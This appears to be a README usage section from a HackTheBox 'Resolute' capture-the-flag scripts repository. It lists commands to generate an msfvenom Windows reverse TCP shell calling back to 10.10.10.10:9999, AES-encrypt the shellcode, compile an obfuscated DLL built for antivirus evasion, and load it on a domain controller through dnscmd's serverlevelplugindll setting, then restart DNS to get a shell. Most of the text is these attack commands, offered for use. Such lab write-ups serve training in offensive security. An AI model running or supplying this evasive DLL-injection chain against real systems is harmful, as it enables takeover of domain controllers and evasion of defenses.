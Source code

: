 ### Usage

1. Generate the shellcode in raw format
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=9999 -o venom.bin
```

2. Use [aesencrypt.py](https://github.com/YounesTasra-R4z3rSw0rd/CTF-Scripts/blob/main/HTB/Resolute/aesencrypt.py) to generate an AES key and the encrypted version of the generated shellcode. The output of the command should be added in the DLL source code in `unsigned char AESKey[]` and `unsigned char shellcode[]` respectively.
```bash
python3 aesencrypt.py venom.bin
```

3. Compile the DLL source code (`resolute.cpp`) (created with evasion in mind: Encryption of the shellcode + Obfuscation of API calls and strings).
4. Compile the code using [compile-DLL.bat](https://github.com/YounesTasra-R4z3rSw0rd/CTF-Scripts/blob/main/HTB/Resolute/compile-dll.bat). The source code should be in the same directory of `compile-dll.bat` file.
```bash
compile-dll.bat
```
![2024-08-14 01_39_14-x64 Native Tools Command Prompt for VS 2022 (2)](https://github.com/user-attachments/assets/bc494ca9-42d6-421d-8b92-2255301a0a93)

5. Upload the generated dll on the target machine
6. Start a multi handler listener on port **9999** (Port specified in step 1)
7. Run the commands below on the target machine (DC)
```powershell
> dnscmd Resolute /config /serverlevelplugindll C:\Users\ryan\Documents\resolute.dll
> sc.exe stop dns
> sc.exe start dns
```

![2024-08-14 01_43_05-kali Linux - VMware Workstation 17 Player (Non-commercial use only)](https://github.com/user-attachments/assets/c2422330-331b-421f-b57d-de53235612f2)

8. Upon the restart of the DNS service, You should get a connection back on your reverse shell listener
![2024-08-14 01_27_07-kali Linux - VMware Workstation 17 Player (Non-commercial use only)](https://github.com/user-attachments/assets/461c6de1-dfbc-4d24-856d-e9cd820ff7c5)
